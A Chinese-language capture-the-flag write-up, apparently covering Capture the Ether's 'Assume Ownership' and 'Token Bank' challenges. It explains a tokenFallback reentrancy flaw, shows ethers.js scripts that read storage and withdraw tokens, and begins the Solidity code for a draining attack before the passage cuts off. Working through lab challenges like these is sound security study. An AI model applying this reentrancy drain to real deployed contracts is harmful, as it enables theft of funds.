 返回 Check, 完成 ✅

---

### Miscellaneous

###### Assume Ownership

这个题, 比较简单, 开始挑战之后, 去到合约地址, 由于已经开源验证, 所以 先执行`AssumeOwmershipChallenge` 这个函数, 再执行 `authenticate` 这个函数.

最后返回 Check, 完成 ✅

---

###### Token Bank

这个题的意思是, 创建了一个 Token--SET , 总量是 1,000,000 个 (单位是 10\*\*18), 然后又创建了个银行, 银行持有 Token 的一半, 开始挑战的人 (我) 持有 Token 的一半, 一开始 SET 的总量 都在这个银行里面存着, 但是我随时可以把属于我的那一半 Token 取出来. 这个题的要求是 把银行里面的 Token 给他清空掉.

找一找 bug, bug 发生在这句话 `ITokenReceiver(to).tokenFallback(msg.sender, value, data);` 结合 Bank 里面的 `tokenFallback` 函数来看, 这句话想要做的是: 如果一个人响银行转帐, 那么这个人的账上就多出相应的余额, **只不过 判断条件错了** 这里的判断条件是 只要目的地是合约, 都会启动这句话, 因此 可以建立一个攻击合约. 攻击合约中写好`tokenFallback` 函数, **利用合约重入**,就可以把银行里的钱都转出来.

```javascript
// 读取mapping 即 balanceOf的一个小测试
const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
  let hash = await ethers.utils.keccak256(await ethers.utils.defaultAbiCoder.encode(["address","uint"], ["0x869D7e8506D5ABB5e516970dd4FA14AB66a603Fe",1]))
  console.log(hash)
  const slot = await provider.getStorageAt("0x681BE0B67e6917e84BbCFe925c551ca94d06bEb6",hash)
  console.log(slot)
```

首先, 先把属于我们自己的余额那一部分 转出来

```javascript
async function main(){
  const provider = new ethers.providers.JsonRpcProvider(process.env.RPC)
  const wallet = new ethers.Wallet(process.env.PK, provider)
  let iface = new ethers.utils.Interface(["function withdraw(uint256 amount)"])
  const tx = {
    to: "0x681BE0B67e6917e84BbCFe925c551ca94d06bEb6",
    data: iface.encodeFunctionData("withdraw", [ethers.utils.parseEther("500000")]),
  }
  const hash = await wallet.sendTransaction(tx)
  await hash.wait()
  console.log("Send Tx",hash.hash)
}d
```

其次, 我们部署 Attack 合约

```solidity
pragma solidity ^0.4.21;

interface ITokenReceiver {
    function tokenFallback(address from, uint256 value, bytes data) external;
}
contract SimpleERC223Token {
    // Track how many tokens are owned by each address.
    mapping (address => uint256) public balanceOf;
    string public name = "Simple ERC223 Token";
    string public symbol = "SET";
    uint8 public decimals = 18;
    uint256 public totalSupply = 1000000 * (uint256(10) ** decimals);
    event Transfer(address indexed from, address indexed to, uint256 value);
    function SimpleERC223Token() public {
        balanceOf[msg.sender] = totalSupply;
```